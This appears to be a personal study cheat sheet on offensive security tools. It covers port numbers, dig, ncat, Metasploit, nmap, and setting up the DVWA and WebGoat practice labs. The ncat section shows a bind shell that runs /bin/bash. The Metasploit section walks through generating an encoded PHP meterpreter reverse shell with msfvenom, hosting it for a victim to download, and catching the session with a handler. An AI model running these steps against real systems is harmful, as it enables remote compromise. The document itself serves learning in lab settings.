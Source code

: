 # Hacking Tools
---
******************** Ports information **************************
There are 65535 port numbers (2^16).

20 and 21: FTP (File Transfer Protocol --> Transfer files between client and server)
22: SSH (Secure Shell --> Tunneling protocol for secure network connection)
23: Telnet
25: SMTP (Simple Mail Transfer Protocol --> Used for email)
53: DNS (Domain Name System --> Domain names to ip adresses)
67 and 68: DHCP (Dynamic Host Configuration Protocol --> Assigns IP adresses to devices dynamically)
80: HTTP (Hypertext Transfer Protocol --> Makes world wide web possible)
110: POP3 (Post Office Protocol --> For receiving emails)
123: NTP (Network Time Protocol --> Clock synchronization)
143: IMAP (Internet Message Access Protocol --> For receiving emails)
179: BGP (Boder Gateway Protocol --> Used for establish connections between large networks)
443: HTTPS (Hypertext Transfer Protocol Secure --> Secure and encrypted version of http)
500: ISAKMP (Internet Security Association and Key Management Protocol --> Is part of the process of setting up secure IPsec connections)
3389: RDP (Remote Desktop Protocol --> Allows users to connect their computers from another device)

More information at:  (IANA --> Internet Assigned Numbers Authority) https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml
*************************************************************

## DIG

Tool for interrogating DNS name servers.

Get a DNS response (information about a domain):

```Shell
dig ns<number of server>.<domain>
```

Get simplified response (only ip address):

```Shell
dig +short ns.<domain>

// Get one of the google´s ip adresses
dig +short ns.google.com
```

Get belonging domain of an ip:

```Shell
dig +short -x <IP adress>
```


## NCAT

Tool for reading and writing data across the network.

Use ncat as a server running in port 8080:

```Shell
ncat -l <ip> <port>
```

Example:

```Shell
ncat -l 127.0.0.1 8080
```

Establish a connection with the server:

```Shell
ncat 127.0.0.1 8080
```

Running a command on the client side, will run the command on the host machine a print the output on the client:

```Shell
ncat -l --exec "/bin/bash" 127.0.0.1 8080
```

>[!Note]
>`ncat` = `nc`


## Metasploit

- Metasploit modules 
	- Exploits
	- Payloads
	- Auxiliary
	- Encoders
	- Nops
	- Posts
	- Evasion

Modules are located in: `/usr/share/metasploit-framework/modules`

>[!Note]
>- Try to run the database service to initialize the msf faster 'service postgresql start'
>- Dictionaries for brute-force attacks available at /usr/share/metasploit-framework/data/wordlists


``` Shell
msfdb // Manage metasploit framework database
msfconsole // Initiallize the metasploit framework
```

Once on the Metasploit framework:

```Metasploit
banner // Display a banner
db_status // Check the metasploit framework database status
use <module> // Use a certain metasploit module
show <options> // Show information about a moudule
set <option> <value> // Set options, use 'show options' to see them
search <field> <parameter> // Make queries about modules. e.g. type:payload
back // Return to metasploit framework main command line interface
run // Running an auxiliary
exploit // Running an exploit
```

>[!Note]
>_msfvenom_ is a payload generator

For instance, we can make a reverse shell  by using the payload: `php/meterpreter/reverse_tcp`

```Metasploit
msfvenom -p <payload> <option>=<value> <other optional flags> > <file name to contain the payload>
```

Setting the payload with our machine listening. '-e' flag for setting an appropiate encoder, '-f' flag for setting the file format as a raw file, also we are saving the payload into 'shell.php' file

```Metasploit
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Our ip address> LPORT=4444 -e php/base64 -f raw > shell.php
```

LPORT is 4444 by default (try `msfvenom -p <payload> --list-options` to looking for options)

Inside the file we'll find a single line of base64 encoded payload, so we wrap that line like that:

```
<?php
<encoded payload>
?>
```

Then the machine will read it as php code.

Now we can start an _apache2 web server_ so the victim download the payload from there. 
Copy the file into `/var/www/html`, start the server and enter your ip adress into the browser.

Go to msfconsole and use `exploit/multi/handler` then set LHOST to your address and run the exploit for start listening. Once the victim machine opens the file a session will be created.

>[!Note]
>_ARMITAGE_ -> Graphical user interface for Metasploit


## NMAP

// Use -sS for a stealth scan, -sT flag is louder. Use -sV for showing services version

nmap <flags> <IP adress> (See open ports)




---------------------------------------------------------------------------------------------------

// WebGoat is a deliberately insecure web application maintained by OWASP designed to teach web application security lessons. 
docker run -it -p 127.0.0.1:80:8888 -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/goatandwolf:v8.2.2 (Starting WebGoat)
// Web application located at: http://127.0.0.1:8080/WebGoat/login


// Now we are going to set up the DVWA web application
// We put DVWA file into /var/www/html
// Accesing MariaDB
mysql -u root -p
// mysql commands ends with semicolon
CREATE DATABASE dvwa; (Creating a database called dvwa)
GRANT all ON dvwa.* to dvwa@localhost identified by 'password'; (Granting permissions to the database)
flush privileges;
// Exit the MariaDB and rename the file into /var/www/html/DVWA/config
mv config.inc.php.dist config.inc.php
// Rewrite the file so set the user and the password to the ones setted in the database created
// Rewrite /etc/php/7.4/apache2/php.ini: allow_url_include = On
// Restart php service
// Enter localhost and create database
// Log in with admin123:password

---------------------------------ZED ATTACK PROXY---------------------------------------------

// Install zaproxy
// For quick scan use: http://www.webscanttest.com

---------------------------------------------------------------------------------------------------